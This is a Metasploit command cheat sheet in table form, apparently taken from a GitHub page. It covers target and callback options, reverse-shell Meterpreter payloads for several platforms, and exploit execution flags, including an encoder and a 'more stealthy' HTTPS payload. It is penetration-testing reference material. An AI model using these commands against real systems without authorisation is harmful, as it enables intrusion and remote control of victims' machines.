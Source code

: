 ### Configuration

#### Target and Attack Setup
| Command | Description | Example |
|---------|-------------|---------|
| `set RHOSTS <IP>` | Set target IP address or range | `set RHOSTS 192.168.1.10` |
| `set RHOSTS <range>` | Set IP range | `set RHOSTS 192.168.1.1-254` |
| `set RHOSTS <CIDR>` | Set network with CIDR notation | `set RHOSTS 192.168.1.0/24` |
| `set RPORT <port>` | Set target port | `set RPORT 445` |
| `set LHOST <IP>` | Set attacker IP for callbacks | `set LHOST 192.168.1.5` |
| `set LPORT <port>` | Set attacker port for callbacks | `set LPORT 4444` |
| `set payload <payload>` | Specify payload to use | `set payload windows/meterpreter/reverse_tcp` |
| `set target <ID>` | Select specific target from list | `set target 0` |
| `setg <option> <value>` | Set global option | `setg LHOST 192.168.1.5` |
| `unset <option>` | Clear option value | `unset RPORT` |
| `unsetg <option>` | Clear global option | `unsetg LHOST` |
| `save` | Save current settings to config file | `save` |

#### Common Payload Types

| Payload | Description |
|---------|-------------|
| `windows/meterpreter/reverse_tcp` | Windows Meterpreter, reverse TCP connection |
| `windows/meterpreter/reverse_https` | Windows Meterpreter over HTTPS (more stealthy) |
| `linux/x86/meterpreter/reverse_tcp` | Linux Meterpreter, reverse TCP connection |
| `python/meterpreter/reverse_tcp` | Python Meterpreter, reverse TCP connection |
| `java/jsp_shell_reverse_tcp` | JSP shell, reverse TCP connection |
| `php/meterpreter_reverse_tcp` | PHP Meterpreter, reverse TCP connection |
| `osx/x64/meterpreter/reverse_tcp` | macOS Meterpreter, reverse TCP connection |

### Execution

#### Running Exploits and Auxiliary Modules
| Command | Description | Example |
|---------|-------------|---------|
| `exploit` / `run` | Execute the exploit with configured options | `exploit` |
| `exploit -j` | Run exploit as background job | `exploit -j` |
| `exploit -z` | Run exploit and don't interact with session | `exploit -z` |
| `exploit -e <encoder>` | Use specific encoder | `exploit -e x86/shikata_ga_nai` |
| `exploit -h` | Display help for exploit command | `exploit -h` |
| `run` | Alternative for exploit | `run` |
| `rerun` | Run the module with previous settings | `rerun` |
